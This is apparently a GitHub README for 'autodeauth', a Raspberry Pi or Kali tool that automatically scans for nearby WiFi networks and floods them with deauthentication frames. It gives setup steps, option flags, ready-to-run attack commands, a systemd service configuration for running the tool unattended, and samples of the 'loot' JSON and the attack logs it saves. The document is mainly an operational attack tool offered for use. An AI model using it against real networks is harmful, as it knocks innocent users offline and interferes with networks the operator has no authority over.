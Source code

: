# autodeauth
A tool built to automatically deauth local networks
* Tested on Raspberry Pi OS and Kali Linux

# Setup
```
$ chmod +x setup.sh
$ sudo ./setup.sh
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Please enter your WiFi interface name e.g: wlan0 ->  wlan1
autodeauth installed

use sudo autodeauth or systemctl start autodeauth 

to edit service setting please edit: service file: /etc/systemd/system/autodeauth.service
```


# Options
```
$ sudo autodeauth -h
        _       _       ___                _   _    
       /_\ _  _| |_ ___|   \ ___ __ _ _  _| |_| |_  
      / _ \ || |  _/ _ \ |) / -_) _` | || |  _| ' \ 
     /_/ \_\_,_|\__\___/___/\___\__,_|\_,_|\__|_||_|

usage: autodeauth [-h] --interface INTERFACE [--blacklist BLACKLIST] [--whitelist WHITELIST] [--led LED] [--time TIME] [--count COUNT] [--verbose VERBOSE]

Auto Deauth Tool

options:
  -h, --help            show this help message and exit
  --interface INTERFACE, -i INTERFACE
                        Interface to snoop WiFi traffic and send deauth packets (must support packet injection)
  --blacklist BLACKLIST, -b BLACKLIST
                        List of networks ssids to avoid (Comma seperated)
  --whitelist WHITELIST, -w WHITELIST
                        List of networks ssids to target (Comma seperated)
  --led LED, -l LED     Led pin number for led display
  --time TIME, -t TIME  Time (in s) between two deauth packets (default 0)
  --count COUNT, -c COUNT
                        Number of packets to send (default 5000)
  --verbose VERBOSE, -v VERBOSE
                        Scapy verbose setting (default: 0)
```

# Usage
After running the setup you are able to run the script by using autodeauth from any directory
## Command line
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
## Service
```
$ sudo systemctl start autodeauth
```


# Loot and Log files
## Loot
When a network is detected and fits under the whitelist/blacklist criteria its network information is saved as a json file in /var/log/autodeauth/

```json
{
    "ssid": "MyWiFiNetwork",
    "mac_address": "10:0B:21:2E:C1:11",
    "channel": 1,
    "network.frequency": "2.412 GHz",
    "mode": "Master",
    "bitrates": [
        "6 Mb/s",
        "9 Mb/s",
        "12 Mb/s",
        "18 Mb/s",
        "24 Mb/s",
        "36 Mb/s",
        "48 Mb/s",
        "54 Mb/s"
    ],
    "encryption_type": "wpa2",
    "encrypted": true,
    "quality": "70/70",
    "signal": -35
} 
```
## Log File
```
$ cat /var/log/autodeauth/log               
2022-08-20 21:01:31 - Scanning for local networks
2022-08-20 21:20:29 - Sending 5000 deauth frames to network: A0:63:91:D5:B8:76 -- MyWiFiNetwork
2022-08-20 21:21:00 - Exiting/Cleaning up
```

# Edit Service Config

## Edit Config
To change the settings of the autodeauth service edit the file /etc/systemd/system/autodeauth.service <br>
Lets say you wanted the following config to be setup as a service
```
$ sudo autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```
```
$ vim /etc/systemd/system/autodeauth.service
```
Then you would change the ExecStart line to <br>
```
ExecStart=/usr/bin/python3 /usr/local/bin/autodeauth -i wlan0 --blacklist FreeWiFi,myWifi -c 10000
```

